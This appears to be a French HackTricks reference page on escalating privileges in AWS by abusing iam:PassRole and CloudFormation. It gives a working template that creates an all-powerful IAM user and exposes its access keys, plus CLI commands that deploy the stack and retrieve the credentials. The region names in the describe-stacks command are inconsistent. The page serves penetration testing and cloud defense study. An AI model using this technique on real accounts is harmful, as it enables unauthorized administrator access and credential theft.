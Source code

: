 # iam:PassRole, cloudformation:CreateStack, et cloudformation:DescribeStacks

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez** 💬 [**le groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **dépôts Github.**

</details>

Un attaquant pourrait par exemple utiliser un **modèle cloudformation** qui génère des **clés pour un utilisateur admin** comme suit :

```json
{
     "Resources": {
         "AdminUser": {
             "Type": "AWS::IAM::User"
         },
         "AdminPolicy": {
             "Type": "AWS::IAM::ManagedPolicy",
                 "Properties": {
                 "Description" : "Cette politique permet toutes les actions sur toutes les ressources.",
                 "PolicyDocument": {
                     "Version": "2012-10-17",
                     "Statement": [
                     {
                         "Effect": "Allow",
                         "Action": [
                         "*"
                         ],
                         "Resource": "*"
                     }]
                 },
                 "Users": [{
                     "Ref": "AdminUser"
                 }]
             }
         },
         "MyUserKeys": {
             "Type": "AWS::IAM::AccessKey",
             "Properties": {
                 "UserName": {
                     "Ref": "AdminUser"
                 }
             }
         }
       },
     "Outputs": {
         "AccessKey": {
             "Value": {
                 "Ref": "MyUserKeys"
             },
             "Description": "ID de la clé d'accès de l'utilisateur admin"
         },
         "SecretKey": {
             "Value": {
                 "Fn::GetAtt": [
                 "MyUserKeys",
                 "SecretAccessKey"
                 ]
             },
             "Description": "Clé secrète de l'utilisateur admin"
         }
     }
}
```

Ensuite, **générez la pile cloudformation** :

```
aws cloudformation create-stack --stack-name privesc \
    --template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
    --role arn:aws:iam::[REDACTED]:role/adminaccess \
    --capabilities CAPABILITY_IAM --region us-west-2
```

**Attendez quelques minutes** que la pile soit générée, puis **obtenez la sortie** de la pile où les **informations d'identification sont stockées** :

```
aws cloudformation describe-stacks \
    --stack-name arn:aws:cloudformation:us-west2:[REDACTED]:stack/privesc/b4026300-d3fe-11e9-b3b5-06fe8be0ff5e \
    --region uswest-2
```

### Références

* [https://bishopfox.com/blog/privilege-escalation-in-aws](https://bishopfox.com/blog/privilege-escalation-in-aws)

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez** 💬 [**le groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **dépôts Github.**

</details>